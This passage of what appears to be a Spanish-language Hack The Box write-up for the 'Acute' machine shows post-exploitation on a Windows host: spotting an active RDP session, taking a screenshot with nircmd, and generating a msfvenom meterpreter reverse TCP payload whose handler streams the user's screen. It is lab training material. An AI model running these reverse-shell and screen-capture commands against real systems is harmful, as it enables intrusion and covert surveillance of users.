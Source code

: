```null
PS C:\Users> ipconfig

Windows IP Configuration


Ethernet adapter Ethernet 2:

   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::9513:4361:23ec:64fd%14
   IPv4 Address. . . . . . . . . . . : 172.16.22.2
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 172.16.22.1
```

Hay una sesión de RDP activa

```null
PS C:\Windows\System32\spool\drivers\color>qwinsta /server:127.0.0.1
 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE 
 console           edavies                   1  Active     
```

Me descargo el ```nircmd.exe``` y lo transfiero a la máquina víctima

```null
PS C:\Windows\System32\spool\drivers\color> .\nircmd.exe savescreenshot captura.png
```

Pero la idea es ver la pantalla en tiempo real, así que utilizo un payload de ```Metasploit``` que es más óptimo. Creo un binario que se encargue de obtener una sesión interactiva por meterpreter

```null
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.16.9 LPORT=443 -f exe -o meter.exe
```

```null
msfconsole

msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_tcp
payload => windows/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.16.9
LHOST => 10.10.16.9
msf6 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.9:443 
[*] Meterpreter session 1 opened (10.10.16.9:443 -> 10.10.11.145:49844) at 2023-03-06 13:50:02 +0000

meterpreter > screenshare
[*] Preparing player...
[*] Opening player at: /home/rubbx/Desktop/HTB/Machines/Acute/wNcdznsg.html
[*] Streaming...
```
